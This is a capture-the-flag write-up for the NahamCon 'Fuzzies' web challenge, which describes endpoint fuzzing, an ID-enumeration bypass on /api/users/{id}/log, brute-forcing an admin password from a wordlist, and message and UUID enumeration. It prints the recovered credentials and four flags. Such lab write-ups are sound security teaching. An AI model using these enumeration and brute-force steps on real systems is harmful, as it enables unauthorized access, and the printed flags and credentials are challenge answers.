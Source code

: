 ```yaml
---
title: "Fuzzies"
date: 2025-05-25 00:00 +0800
categories: [Web]
tags: [CTF,NahamCon]
# image: https://github.com/user-attachments/assets/ec19a64a-e750-45f8-8ffc-f9afb2332d5c
---
```


![image](https://github.com/user-attachments/assets/ec19a64a-e750-45f8-8ffc-f9afb2332d5c)

This challenge involved finding five hidden flags through a series of web-based exploits. Including endpoint fuzzing, login brute-forcing, and API enumeration. I managed to retrieve four out of five flags, uncovering most of the application’s logic and data exposure paths.

## Recon

![image](https://github.com/user-attachments/assets/b5e846fb-8dce-4d86-80ae-516b2749140b)

![image](https://github.com/user-attachments/assets/e3ca0624-3c5a-47cc-a643-e47b83a65721)

![image](https://github.com/user-attachments/assets/ee28034f-d135-4a97-9604-1d9b94e1e6ce)

![image](https://github.com/user-attachments/assets/459a2207-5f2a-48ca-9760-6fd9eda698e3)

## First Part

by using the wordlist and FUZZing by using intruder, i find this endpoint: 

``
/api/users
``
but, when trying to access ``/{id}`` it gave that an error:

![image](https://github.com/user-attachments/assets/309c439c-f2c4-488a-aaac-ac1b78b97e58)

How to bypass? by adding ``/{id}/log`` 

![image](https://github.com/user-attachments/assets/27e3b7cc-b599-4be1-a333-01dbcf989f18)


After that, we can simply bruteforce to find the right id for it from ``1 - 100``


```
/api/users/0/log
/api/users/1/log
...
/api/users/100/log
```

![image](https://github.com/user-attachments/assets/520f5d6b-3214-426f-8575-633ac9d50de8)

### Flag #1

``flag{31ef61815ae2b7209d0493b996608be5}``

## Second Part

Log in as admin. From first flag we will get the admin details ``"username":"brian.1954"``
Then bruteforce the password with wordlist ``password.txt`` given

![image](https://github.com/user-attachments/assets/ef0a15f6-5ec5-41eb-99e5-c1384a902f17)

```
username : brian.1954
password : dallas
```

### Flag #2

After that, simply log in with the given username and password. The flag will be in the admin dashboard

![image](https://github.com/user-attachments/assets/1ff71d2b-aa29-4ef6-be8b-d840af0e8fba)

``flag{8a8b9661b3bd2baa2c74347a6c5cc0fc}``

## Third Part

For this flag, in the ``/admin/messages/`` each message has it own ``{id}``
So, again we use intruder to bruteforce this

```
/admin/messages/0
/admin/messages/1
...
/admin/messages/1000
```

### Flag #3

We are seeing an extra message id which then provide us with the third flag:

![image](https://github.com/user-attachments/assets/a7249edc-17bf-4f80-bd28-eeae505596f5)
![image](https://github.com/user-attachments/assets/343cc492-0957-4f4e-aafe-5ddfeeefe87c)

``flag{3a5aed9baa7c7b3ba6cbe4a15425af3f}``

## Fourth Part

From Flag #3 question we are given with ``666e8400-e29b-41d4-a716-446655440666``

![image](https://github.com/user-attachments/assets/3877cf65-4440-4906-8fee-4293567bdec3)

How to use this? Upon reviewing api-endpoints for each request. I find that in /collection

![Screenshot 2025-05-26 022134 copy](https://github.com/user-attachments/assets/b5b93eab-b713-44ec-a576-57f22bfb4f05)

We had json files that are storing the data of the fuzzies bear with GET request on api-endpoint called ``/api/fuzzies``

```json
[
    {
        "id": "a1b2c3d4-e5f6-4a7b-8c9d-0e1f2a3b4c5d",
        "name": "Original Fuzzy",
        "image": "\/images\/fuzzies\/original.png",
        "description": "The one that started it all! This classic bear features the signature soft, fuzzy fur that made Fuzzies famous. Perfect for cuddling and bedtime stories.",
        "hidden": false
    },
    {
        "id": "b2c3d4e5-f6a7-4b8c-9d0e-1f2a3b4c5d6e",
        "name": "Cool Fuzzy",
        "image": "\/images\/fuzzies\/cool.png",
        "description": "The hippest bear in town! With its stylish sunglasses and laid-back attitude, this Fuzzy was every kid's best friend for summer adventures.",
        "hidden": false
    },
    {
        "id": "c3d4e5f6-a7b8-4c9d-0e1f-2a3b4c5d6e7f",
        "name": "Punk Fuzzy",
        "image": "\/images\/fuzzies\/punk.png",
        "description": "Rock out with this rebellious bear! With its spiky fur and edgy style, this Fuzzy was perfect for kids who wanted to stand out from the crowd.",
        "hidden": false
    },
    {
        "id": "d4e5f6a7-b8c9-4d0e-1f2a-3b4c5d6e7f8g",
        "name": "Roller Fuzzy",
        "image": "\/images\/fuzzies\/roller.png",
        "description": "Skate into fun with this sporty bear! Designed for active kids who loved roller skating and outdoor adventures.",
        "hidden": false
    },
    {
        "id": "e5f6a7b8-c9d0-4e1f-2a3b-4c5d6e7f8g9h",
        "name": "Sporty Fuzzy",
        "image": "\/images\/fuzzies\/sporty.png",
        "description": "The athletic bear that cheered on every game! Perfect for young sports enthusiasts who wanted a fuzzy mascot for their team.",
        "hidden": false
    },
    {
        "id": "f6a7b8c9-d0e1-4f2a-3b4c-5d6e7f8g9h0i",
        "name": "Tie-Dye Fuzzy",
        "image": "\/images\/fuzzies\/tie-dye.png",
        "description": "Peace, love, and fuzzy hugs! This colorful bear brought the psychedelic 80s style to the world of plush toys.",
        "hidden": false
    },
    {
        "id": "g7h8i9j0-k1l2-4m3n-4o5p-6q7r8s9t0u1v",
        "name": "Zebra Fuzzy",
        "image": "\/images\/fuzzies\/zebra.png",
        "description": "A wild twist on the classic Fuzzy! With its unique striped pattern, this bear was perfect for kids who loved animals and adventure.",
        "hidden": false
    }
]
```

![image](https://github.com/user-attachments/assets/28ad0a2a-b95f-4c81-b92f-4306a65c7c08)

That's mean UUID we had before should be the id for fuzzies: 
```http://challenge.nahamcon.com:31526/api/fuzzies?id=666e8400-e29b-41d4-a716-446655440666```

### Flag #4
![image](https://github.com/user-attachments/assets/d5698c92-0c9f-4374-a609-714d2adf27a4)

``flag{e5f170b92990f73980b48af57f442e1f}``
